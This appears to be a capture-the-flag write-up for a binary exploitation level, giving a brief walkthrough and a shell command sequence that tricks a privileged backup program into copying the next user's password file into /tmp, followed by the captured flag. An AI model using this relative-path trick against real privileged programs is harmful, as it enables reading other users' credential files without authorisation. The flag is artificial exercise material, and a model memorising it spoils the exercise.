

## Level08
## Source Code

## Walkthrough
- The binary creates a backup file where it will write the content of argv[1]
- We need to do that in a path where with have the rights.
## Answer
    cd /tmp
    mkdir backups
    touch backups/.log
    chmod 777 backups/.log
    mkdir -p home/users/level09
    /home/users/level08/level08 ../home/users/level09/.pass
    cat home/users/level09/.pass
## Flag

	fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S